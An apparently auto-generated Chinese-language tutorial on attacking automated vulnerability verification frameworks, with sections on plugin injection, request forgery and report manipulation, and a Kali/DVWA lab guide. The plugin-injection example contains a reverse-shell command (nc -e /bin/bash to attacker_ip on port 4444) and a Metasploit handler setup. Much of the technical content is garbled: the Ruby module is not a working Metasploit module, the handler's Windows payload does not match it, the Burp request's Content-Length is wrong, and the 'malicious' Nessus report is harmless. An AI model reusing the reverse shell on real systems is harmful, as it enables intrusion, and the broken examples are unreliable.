 # 自动化漏洞验证框架的攻击技术

## 1. 概述

自动化漏洞验证框架（Automated Vulnerability Verification Framework, AVVF）是一种用于快速检测和验证Web应用程序中潜在漏洞的工具。然而，这些框架本身也可能成为攻击者的目标，尤其是在其设计或实现存在缺陷时。本文将深入探讨自动化漏洞验证框架的常见攻击手法和利用方式，包括技术原理解析、变种和高级利用技巧、攻击步骤以及实验环境搭建指南。

## 2. 技术原理解析

### 2.1 自动化漏洞验证框架的工作原理

自动化漏洞验证框架通常通过以下步骤工作：

1. **目标识别**：确定要扫描的目标URL或IP地址。
2. **漏洞检测**：使用预定义的规则或插件检测目标中的潜在漏洞。
3. **漏洞验证**：通过发送特定的请求或载荷来验证漏洞的存在。
4. **报告生成**：生成包含检测结果的报告。

### 2.2 攻击技术底层机制

攻击者可以利用自动化漏洞验证框架的以下机制进行攻击：

- **插件或规则注入**：通过注入恶意插件或规则，攻击者可以控制框架的行为，执行任意代码或窃取敏感信息。
- **请求伪造**：通过伪造请求，攻击者可以绕过框架的安全机制，执行未授权的操作。
- **数据泄露**：通过操纵框架的输出，攻击者可以获取敏感信息，如扫描结果或目标系统的配置。

## 3. 常见攻击手法和利用方式

### 3.1 插件或规则注入

#### 3.1.1 技术原理解析

自动化漏洞验证框架通常允许用户加载自定义插件或规则。如果这些插件或规则的加载机制存在漏洞，攻击者可以注入恶意代码，控制框架的行为。

#### 3.1.2 攻击步骤

1. **识别目标框架**：确定目标使用的自动化漏洞验证框架及其版本。
2. **构造恶意插件或规则**：编写包含恶意代码的插件或规则文件。
3. **注入恶意插件或规则**：通过框架的插件或规则加载机制，将恶意文件注入到框架中。
4. **执行恶意代码**：触发框架执行恶意代码，实现攻击目的。

#### 3.1.3 实战演练

以Metasploit框架为例，假设攻击者构造了一个恶意模块：

```ruby
# evil_module.rb
module EvilModule
  def run
    system("nc -e /bin/bash attacker_ip 4444")
  end
end
```

攻击者可以将该模块注入到Metasploit的模块目录中，并通过以下命令加载和执行：

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit
```

### 3.2 请求伪造

#### 3.2.1 技术原理解析

自动化漏洞验证框架通常通过发送HTTP请求来检测漏洞。如果框架的请求生成机制存在漏洞，攻击者可以伪造请求，绕过安全机制，执行未授权的操作。

#### 3.2.2 攻击步骤

1. **识别目标框架**：确定目标使用的自动化漏洞验证框架及其版本。
2. **构造恶意请求**：编写包含恶意载荷的HTTP请求。
3. **伪造请求**：通过框架的请求生成机制，将恶意请求发送到目标系统。
4. **执行未授权操作**：通过伪造的请求，执行未授权的操作，如数据篡改或系统控制。

#### 3.2.3 实战演练

以Burp Suite为例，假设攻击者构造了一个恶意请求：

```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=admin&password=password
```

攻击者可以通过Burp Suite的Repeater工具发送该请求，并观察目标系统的响应。

### 3.3 数据泄露

#### 3.3.1 技术原理解析

自动化漏洞验证框架通常生成包含扫描结果的报告。如果框架的报告生成机制存在漏洞，攻击者可以操纵输出，获取敏感信息。

#### 3.3.2 攻击步骤

1. **识别目标框架**：确定目标使用的自动化漏洞验证框架及其版本。
2. **构造恶意输出**：编写包含敏感信息的输出文件。
3. **操纵输出**：通过框架的报告生成机制，将恶意输出文件写入目标系统。
4. **获取敏感信息**：通过操纵的输出文件，获取敏感信息，如扫描结果或目标系统的配置。

#### 3.3.3 实战演练

以Nessus为例，假设攻击者构造了一个恶意报告文件：

```xml
<Report>
  <Host name="target.com">
    <Vulnerability>
      <Name>SQL Injection</Name>
      <Description>SQL Injection vulnerability found in /login</Description>
    </Vulnerability>
  </Host>
</Report>
```

攻击者可以将该报告文件注入到Nessus的报告目录中，并通过以下命令查看报告：

```bash
nessuscmd -x report.xml
```

## 4. 实验环境搭建指南

### 4.1 实验环境需求

- **操作系统**：Linux（如Kali Linux）
- **工具**：Metasploit、Burp Suite、Nessus
- **目标系统**：一个易受攻击的Web应用程序（如DVWA）

### 4.2 实验步骤

1. **安装工具**：在Kali Linux中安装Metasploit、Burp Suite和Nessus。
2. **配置目标系统**：设置DVWA，并确保其运行在本地网络中。
3. **执行攻击**：按照上述攻击步骤，分别进行插件或规则注入、请求伪造和数据泄露的攻击实验。
4. **分析结果**：观察攻击结果，并分析攻击成功的原因。

## 5. 结论

自动化漏洞验证框架在提高漏洞检测效率的同时，也可能成为攻击者的目标。通过理解其工作原理和攻击技术，安全研究人员可以更好地防御这些潜在威胁。本文详细介绍了自动化漏洞验证框架的常见攻击手法和利用方式，并提供了实战演练和实验环境搭建指南，希望能为相关领域的研究和实践提供参考。

---

*文档生成时间: 2025-03-17 14:02:14*
